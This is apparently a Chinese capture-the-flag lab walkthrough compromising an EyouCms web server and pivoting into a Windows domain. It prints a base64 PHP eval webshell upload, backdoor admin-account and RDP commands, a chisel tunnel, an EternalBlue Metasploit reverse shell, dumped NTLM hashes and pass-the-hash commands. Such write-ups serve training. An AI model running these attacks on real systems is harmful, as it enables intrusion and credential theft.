


# lab01

:::info

场景介绍

> 本次小李的任务是攻克 192.168.10.0/24 网段的所有主机，刚开始挺顺利，但深入后发现里面的情况远比想象的复杂。
>
> - 多层代理
> - 域渗透
> - 仿真实战
> - 信息收集

:::

## 入口点

```plaintext
http://192.168.10.10/
```

## EyouCms RCE

根据页脚信息，可以确定为 EyouCms 框架

根据漏洞信息，可以检索到 [eyoucms 前台 getshell 复现・Hu3sky's blog](https://hu3sky.github.io/2018/08/25/eyou%C7%B0%CC%A8getshell/)

根据复现文章，构建文件上传请求


```plaintext
POST /index.php/api/Uploadify/preview HTTP/1.1
Host: 192.168.10.10
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 62

data:image/php;base64,PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSkgPz4=
```

即可成功上传 webshell



## flag - 1

在 C 盘根目录即可发现 `flag.txt` 文件



## 入口机 - WIN-KOHRC1DGOL9 - 信息收集

获取基础信息

```shell
C:\phpstudy_pro\WWW\eyoucms1.0\preview> whoami
nt authority\system

C:\phpstudy_pro\WWW\eyoucms1.0\preview> systeminfo
主机名:           WIN-KOHRC1DGOL9
OS 名称:          Microsoft Windows Server 2012 R2 Standard
OS 版本:          6.3.9600 暂缺 Build 9600
OS 制造商:        Microsoft Corporation
OS 配置:          独立服务器
OS 构件类型:      Multiprocessor Free
注册的所有人:     Windows 用户
注册的组织:       
产品 ID:          00252-60020-02714-AA020
初始安装日期:     2025/1/6, 11:21:56
系统启动时间:     2025/10/25, 10:32:01
系统制造商:       Red Hat
系统型号:         KVM
系统类型:         x64-based PC
处理器:           安装了 1 个处理器。
                  [01]: Intel64 Family 6 Model 85 Stepping 4 GenuineIntel ~2000 Mhz
BIOS 版本:        SeaBIOS 1.16.3-2.el9, 2014/4/1
Windows 目录:     C:\Windows
系统目录:         C:\Windows\system32
启动设备:         \Device\HarddiskVolume1
系统区域设置:     zh-cn;中文(中国)
输入法区域设置:   zh-cn;中文(中国)
时区:             (UTC+08:00)北京，重庆，香港特别行政区，乌鲁木齐
物理内存总量:     1,023 MB
可用的物理内存:   448 MB
虚拟内存: 最大值: 2,047 MB
虚拟内存: 可用:   1,111 MB
虚拟内存: 使用中: 936 MB
页面文件位置:     C:\pagefile.sys
域:               WORKGROUP
登录服务器:       暂缺
修补程序:         安装了 6 个修补程序。
                  [01]: KB2919355
                  [02]: KB2919442
                  [03]: KB2937220
                  [04]: KB2938772
                  [05]: KB2939471
                  [06]: KB2949621
网卡:             安装了 2 个 NIC。
                  [01]: Realtek RTL8139C+ Fast Ethernet NIC
                      连接名:      以太网实例 0
                      启用 DHCP:   否
                      IP 地址
                        [01]: 192.168.20.10
                        [02]: fe80::41ee:c39e:b973:970d
                  [02]: Realtek RTL8139C+ Fast Ethernet NIC
                      连接名:      以太网 3
                      启用 DHCP:   否
                      IP 地址
                        [01]: 192.168.10.10
                        [02]: fe80::411e:4da2:6bef:f909
Hyper-V 要求:     已检测到虚拟机监控程序。将不显示 Hyper-V 所需的功能。
```

可以注意到入口机是一台双网卡机器

## WIN-KOHRC1DGOL9 - 开启 RDP

由于 web 服务权限就是 SYSTEM 所以直接添加用户

```cmd
net user randark Admin123### /add
net localgroup administrators randark /add
```

然后开启 RDP 服务

```shell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
net start termservice
```

尝试通过 RDP 连接入口机，可以看到报错信息


禁用掉身份验证

```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f 
```

即可进入入口机的 RDP


## WIN-KOHRC1DGOL9 - 建立代理枢纽

在 kali 上启动监听

```shell
┌──(randark㉿kali)-[~/tools/chisel_v1.11.3]
└─$ ./chisel_1.11.3_linux_amd64 server -p 1337 --reverse
2025/10/25 18:59:27 server: Reverse tunnelling enabled
2025/10/25 18:59:27 server: Fingerprint bqwFYMM1F57P0eCkvFetOz8+nOevFcw7Cx4Ej1sRXXw=
2025/10/25 18:59:27 server: Listening on http://0.0.0.0:1337
```

在 `WIN-KOHRC1DGOL9` 上执行

```shell
chisel.exe client 172.16.233.2:1337 R:0.0.0.0:10000:socks
```

即可建立代理

## 二层内网扫描

由于 `WIN-KOHRC1DGOL9` 主机完全可控，直接在上面进行扫描

```shell
fscan.exe -h 192.168.20.0/24
```

得到

```plaintext
192.168.20.20:445 open
192.168.20.10:445 open
192.168.20.10:80 open
192.168.20.30:88 open
192.168.20.10:3306 open
192.168.20.30:445 open
192.168.20.30:139 open
192.168.20.20:139 open
192.168.20.10:139 open
192.168.20.30:135 open
192.168.20.20:135 open
192.168.20.10:135 open
[+] MS17-010 192.168.20.30 (Windows Server 2008 R2 Standard 7600)
[*] NetBios 192.168.20.10   WORKGROUP\WIN-KOHRC1DGOL9           Windows Server 2012 R2 Standard 9600
[*] NetInfo 
[*]192.168.20.20
   [->]cyberweb
   [->]192.168.20.20
[*] NetInfo 
[*]192.168.20.30
   [->]WIN-7NRTJO59O7N
   [->]192.168.20.30
[+] MS17-010 192.168.20.20 (Windows Server 2012 R2 Standard 9600)
[*] NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.20.10      code:200 len:25229  title:易优CMS -  Powered by Eyoucms.com
[+] PocScan http://192.168.20.10 poc-yaml-thinkphp5023-method-rce poc1
```

可以看到，另外两台主机都可以直接打 MS17-010

## WIN-7NRTJO59O7N - MS17-010

由于是靶场，直接使用 MSF 来打

```shell
msf > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/smb/ms17_010_eternalblue) > setg lhost 172.16.233.2
lhost => 172.16.233.2
msf exploit(windows/smb/ms17_010_eternalblue) > setg lport 3000
lport => 3000
msf exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.20.30
rhosts => 192.168.20.30
```

同时为了避免不出网的情况，将 kali 上的 3000 端口转发到 `WIN-KOHRC1DGOL9`

```shell
chisel.exe client 172.16.233.2:1337 3000:0.0.0.0:3000
```

并且需要修改对应的 lhost 参数

```shell
msf exploit(windows/smb/ms17_010_eternalblue) > setg lhost 192.168.20.10
lhost => 172.16.233.2
```

即可开始攻击

```shell
msf exploit(windows/smb/ms17_010_eternalblue) > exploit 
[-] Handler failed to bind to 192.168.20.10:3000:-  -
[*] Started reverse TCP handler on 0.0.0.0:3000 
[*] 192.168.20.30:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.20.30:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7600 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.21/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 192.168.20.30:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.20.30:445 - The target is vulnerable.
[*] 192.168.20.30:445 - Connecting to target for exploitation.
[+] 192.168.20.30:445 - Connection established for exploitation.
[+] 192.168.20.30:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.20.30:445 - CORE raw buffer dump (36 bytes)
[*] 192.168.20.30:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.20.30:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 192.168.20.30:445 - 0x00000020  37 36 30 30                                      7600            
[+] 192.168.20.30:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.20.30:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.20.30:445 - Sending all but last fragment of exploit packet
[*] 192.168.20.30:445 - Starting non-paged pool grooming
[+] 192.168.20.30:445 - Sending SMBv2 buffers
[+] 192.168.20.30:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.20.30:445 - Sending final SMBv2 buffers.
[*] 192.168.20.30:445 - Sending last fragment of exploit packet!
[*] 192.168.20.30:445 - Receiving response from exploit packet
[+] 192.168.20.30:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.20.30:445 - Sending egg to corrupted connection.
[*] 192.168.20.30:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 127.0.0.1
[+] 192.168.20.30:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.20.30:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.20.30:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (127.0.0.1:3000 -> 127.0.0.1:46162) at 2025-10-25 19:19:11 +0800
```

查看系统信息

```shell
meterpreter > sysinfo 
Computer        : WIN-7NRTJO59O7N
OS              : Windows Server 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : zh_CN
Domain          : CYBERSTRIKELAB
Logged On Users : 1
Meterpreter     : x64/windows
```

定位 `flag.txt` 文件

```shell
meterpreter > pwd
C:\
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2009-07-14 10:34:39 +0800  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 13:06:44 +0800  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 11:20:08 +0800  PerfLogs
040555/r-xr-xr-x  4096   dir   2024-12-22 11:29:23 +0800  Program Files
040555/r-xr-xr-x  4096   dir   2024-12-22 11:29:26 +0800  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2024-12-22 11:36:27 +0800  ProgramData
040777/rwxrwxrwx  0      dir   2024-12-22 11:27:05 +0800  Recovery
040777/rwxrwxrwx  4096   dir   2024-12-22 11:29:38 +0800  System Volume Information
040555/r-xr-xr-x  4096   dir   2024-12-22 11:27:36 +0800  Users
040777/rwxrwxrwx  16384  dir   2024-12-22 11:31:57 +0800  Windows
100666/rw-rw-rw-  25     fil   2024-12-30 12:15:34 +0800  flag.txt
000000/---------  0      fif   1970-01-01 08:00:00 +0800  pagefile.sys
```

## flag - 3

```shell
meterpreter > cat C:\flag.txt
go-flag{R0M4QwsS6EQp97lw}
```

## WIN-7NRTJO59O7N - 抓取哈希

偷懒了，直接 `hashdump` 了，本来应该添加用户 rdp 上去，再运行 mimikatz 程序抓取哈希，但是都差不多了

```shell
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5bc02b7670084dd30471730cc0a1672c:::
cyberweb:1105:aad3b435b51404eeaad3b435b51404ee:2de5cd0f15d1c070851d1044e1d95c90:::
WIN-7NRTJO59O7N$:1000:aad3b435b51404eeaad3b435b51404ee:bfbb7395227fcded73330cf71f8e034b:::
CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:cd61fef6f1c209f7263b40ad1a2c28e4:::
```

接下来尝试 pth 直接利用哈希

## cyberweb - PTH

```shell
┌──(randark㉿kali)-[~]
└─$ proxychains nxc smb 192.168.20.20 -d CYBERSTRIKELAB -u Administrator -H 94bd5248e87cb7f2f9b871d40c903927
SMB         192.168.20.20   445    CYBERWEB         [*] Windows 8.1 / Server 2012 R2 Build 9600 x64 (name:CYBERWEB) (domain:cyberstrikelab.com) (signing:False) (SMBv1:True) 
SMB         192.168.20.20   445    CYBERWEB         [+] CYBERSTRIKELAB\Administrator:94bd5248e87cb7f2f9b871d40c903927 (Pwn3d!)
```

或者使用 `impacke-smbexec`

```shell
┌──(randark㉿kali)-[~]
└─$ proxychains -q impacket-smbexec cyberstrikelab.com/Administrator@192.168.20.20 -hashes aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927 -codec gbk
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

## flag - 2

```shell
C:\Windows\system32>type C:\flag.txt
go-flag{Nb8VOT8X9SbIzyDI}
```
